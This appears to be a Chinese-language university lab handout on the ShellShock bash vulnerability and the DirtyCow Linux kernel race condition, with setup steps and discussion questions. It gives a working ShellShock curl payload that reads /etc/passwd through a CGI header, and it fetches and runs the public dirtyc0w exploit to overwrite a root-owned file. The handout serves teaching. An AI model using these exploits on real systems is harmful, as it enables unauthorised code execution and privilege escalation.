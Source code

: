 # Lab 5 Linux DirtyCow and ShellShock

## ShellShock

实验环境：Ubuntu 14.04

实验工具：Apache2、wget、curl

实验目的：了解ShellShock漏洞的产生原因并熟悉CGI场景下ShellShock漏洞的利用

CVE-2014-6271 https://shellshocker.net/
> 描述引用来源：[https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
> 2014年9月24日bash被公布存在远程代码执行漏洞，漏洞会影响目前主流的操作系统平台，包括但不限于Redhat、CentOS、Ubuntu、Debian、Fedora 、Amazon Linux 、OS X 10.10等平台，此漏洞目前虽然有部分系统给出了补丁，但因为漏洞修补的时效性，及漏洞的范围之大，且还存在一些没有发布补丁的问题，所以仍被定义为高危漏洞。
> bash引自维基百科的描述为：＂bash，Unix shell的一种。1989年发布第一个正式版本，原先是计划用在GNU操作系统上，但能运行于大多数类Unix系统的操作系统之上，包括Linux与Mac OS X v10.4都将它作为默认shell。它也被移植到Microsoft Windows上的Cygwin与MinGW。

当apache使用CGI处理HTTP请求时，它会将请求中的某些信息复制到环境变量列表中，然后将请求转发给处理程序。 如果处理程序是一个Bash脚本，或者如果它使用syscall执行某个脚本，Bash将接收由服务器传递的环境变量，并按上述方式处理它们。 这就提供了一种通过构造HTTP请求来触发ShellShock漏洞的场景。

### 环境搭建
下载并编译存在漏洞版本的bash
```bash
# Please ensure to run the following command with root privilege.
apt update && apt -y install wget build-essential bison autoconf
mkdir -p /usr/local/src/cve-2014-6271 
wget -qO- https://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz | tar zx -C /usr/local/src/cve-2014-6271 --strip-components=1
cd /usr/local/src/cve-2014-6271 && ./configure --prefix=/usr/local/bash-4.3.0
make && make install
rm -rf /usr/local/src/cve-2014-6271

# Install apache2 and enable CGI mod for your Linux.
apt install apache2 && a2enmod cgi
cp ./safe.cgi ./vuln.cgi /usr/lib/cgi-bin
chmod +x /usr/lib/cgi-bin/*.cgi
systemctl start apache2.service
```

在我们的`vuln.cgi`和`safe.cgi`中分别是使用未修复和已修复ShellShock的bash。

我们分别使用curl 访问如下两个CGI的页面

```bash
curl http://127.0.0.1/cgi-bin/vuln.cgi
curl http://127.0.0.1/cgi-bin/safe.cgi
```

如果返回类似如下的结果，说明环境配置成功

```bash
$ curl 127.0.0.1/cgi-bin/vuln.cgi
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 146
Content-Type: text/html
Date: Sun, 27 May 2018 18:05:42 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.33 (Debian)
Vary: Accept-Encoding

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Bash ShellShock</title>
</head>
<body>
<p>
Hello world
</p>
</body>
</html>
```

Q1:使用如下命令访问vuln.cgi所在的页面，查看response。

```bash
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' http://127.0.0.1/cgi-bin/vuln.cgi -I
```

Q2:尝试解释Q1中PoC。

Q3:还有没有其他场景可能会导致ShellShock漏洞，讨论ShellShock产生的原因。



## DirtyCow

实验环境：Ubuntu 12.04 [Download](https://jbox.sjtu.edu.cn/l/aoMMrv)

实验工具：gcc

实验目的：了解DirtyCow漏洞的产生原因并熟悉DirtyCow漏洞的利用

CVE-2016-5195 https://dirtycow.ninja/

> 描述引用来源：https://github.com/dirtycow 
> A race condition was found in the way the Linux kernel’s memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
> Linux内核的内存子系统在处理copy-on-write（COW）时出现竞争条件，导致私有只读存储器映射被破坏。
> The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016. 
> 这个bug自Linux 2.6.22(发布于 2007 年)存在至今，并于2016年10月18日被修复。

从描述中，我们可以了解到这是一个存在于内核的条件竞争的漏洞，因此我们可以尝试利用这个漏洞来达到提权的目的。

首先请检查你的实验环境的内核版本

```bash
uname -a
Linux ubuntu 3.13.0-96-generic #143-Ubuntu SMP Mon Aug 29 20:15:20 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
接下来创建一个只有root可读写，而低权限只能读不能写的文件

```bash
test@ubuntu:~$ echo ABCDEFGHIJKLMN > target.txt
test@ubuntu:~$ cat target.txt 
ABCDEFGHIJKLMN
test@ubuntu:~$ chmod 644 target.txt
test@ubuntu:~$ sudo chown root:root target.txt
test@ubuntu:~$ ls -al 
target.txt 19 May 28 22:03
```

此时，当你尝试用低权限账户去改写该文件时，会发现返回Permission denied
```bash
test@ubuntu:~$ echo aaaaaaaaa > target.txt
bash: target.txt: Permission denied
```

编译利用代码

```bash
test@ubuntu:~$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
test@ubuntu:~$ gcc -pthread dirtyc0w.c -o dirtyc0w
```

执行dirtyc0w, 你会发现文件成功被修改

```bash
test@ubuntu:~$ ./dirtyc0w target.txt abcdefghijklmn
test@ubuntu:~$ cat target.txt
abcdefghijklmn
```

Q1: 复现DirtyCow的利用过程

Q2: 该漏洞可能造成哪些影响

Q3: 如果你作为一家公司的运维，当该漏洞被纰漏并且Linux内核还未修复该漏洞，你该如何加固你的服务器？
